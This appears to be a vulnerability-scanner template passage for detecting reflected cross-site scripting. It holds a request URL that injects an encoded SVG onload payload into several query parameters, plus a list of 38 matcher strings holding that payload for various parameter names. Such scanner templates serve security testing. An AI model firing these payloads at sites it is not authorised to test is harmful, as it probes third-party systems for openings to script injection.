 - {{BaseURL}}/?month=%27%3E%22%3Csvg%2Fonload=confirm%28%27month%27%29%3E&page_id=%27%3E%22%3Csvg%2Fonload=confirm%28%27page_id%27%29%3E&password=%27%3E%22%3Csvg%2Fonload=confirm%28%27password%27%29%3E&terms=%27%3E%22%3Csvg%2Fonload=confirm%28%27terms%27%29%3E&token=%27%3E%22%3Csvg%2Fonload=confirm%28%27token%27%29%3E&type=%27%3E%22%3Csvg%2Fonload=confirm%28%27type%27%29%3E&unsubscribe_token=%27%3E%22%3Csvg%2Fonload=confirm%28%27unsubscribe_token%27%29%3E&year=%27%3E%22%3Csvg%2Fonload=confirm%28%27year%27%29%3E

### Matchers

**Type - word**

- part - body
- condition - or
- words
  1. '>"\<svg/onload=confirm('q')>
  2. '>"\<svg/onload=confirm('s')>
  3. '>"\<svg/onload=confirm('search')>
  4. '>"\<svg/onload=confirm('id')>
  5. '>"\<svg/onload=confirm('action')>
  6. '>"\<svg/onload=confirm('keyword')>
  7. '>"\<svg/onload=confirm('query')>
  8. '>"\<svg/onload=confirm('page')>
  9. '>"\<svg/onload=confirm('keywords')>
  10. '>"\<svg/onload=confirm('url')>
  11. '>"\<svg/onload=confirm('view')>
  12. '>"\<svg/onload=confirm('cat')>
  13. '>"\<svg/onload=confirm('name')>
  14. '>"\<svg/onload=confirm('key')>
  15. '>"\<svg/onload=confirm('p')>
  16. '>"\<svg/onload=confirm('month')>
  17. '>"\<svg/onload=confirm('page_id')>
  18. '>"\<svg/onload=confirm('password')>
  19. '>"\<svg/onload=confirm('terms')>
  20. '>"\<svg/onload=confirm('token')>
  21. '>"\<svg/onload=confirm('type')>
  22. '>"\<svg/onload=confirm('unsubscribe_token')>
  23. '>"\<svg/onload=confirm('api')>
  24. '>"\<svg/onload=confirm('api_key')>
  25. '>"\<svg/onload=confirm('begindate')>
  26. '>"\<svg/onload=confirm('callback')>
  27. '>"\<svg/onload=confirm('categoryid')>
  28. '>"\<svg/onload=confirm('csrf_token')>
  29. '>"\<svg/onload=confirm('email')>
  30. '>"\<svg/onload=confirm('emailto')>
  31. '>"\<svg/onload=confirm('enddate')>
  32. '>"\<svg/onload=confirm('immagine')>
  33. '>"\<svg/onload=confirm('item')>
  34. '>"\<svg/onload=confirm('jsonp')>
  35. '>"\<svg/onload=confirm('l')>
  36. '>"\<svg/onload=confirm('lang')>
  37. '>"\<svg/onload=confirm('list_type')>
  38. '>"\<svg/onload=confirm('year')>
